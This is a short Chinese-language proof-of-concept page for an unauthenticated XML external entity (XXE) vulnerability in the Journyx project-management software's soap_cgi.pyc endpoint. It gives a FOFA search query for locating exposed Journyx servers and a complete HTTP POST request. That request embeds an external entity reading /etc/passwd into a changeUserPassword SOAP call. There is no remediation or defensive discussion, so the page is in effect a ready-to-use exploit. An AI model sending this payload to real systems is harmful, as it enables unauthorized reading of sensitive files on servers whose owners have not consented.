 # Journyx存在未经身份验证的XML外部实体注入

Journyx项目管理软件 soap_cgi.pyc 接口存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。

## fofa

```javascript
"Journyx"
```

## poc

```javascript
POST /jtcgi/soap_cgi.pyc HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Ldwk: bG91ZG9uZ3dlbmt1
User-Agent: curl/8.1.2
Content-Length: 333

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><changeUserPassword><username>&test;</username><curpwd>zzz</curpwd><newpwd>zzz123</newpwd></changeUserPassword></soapenv:Body></soapenv:Envelope>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091049662.png)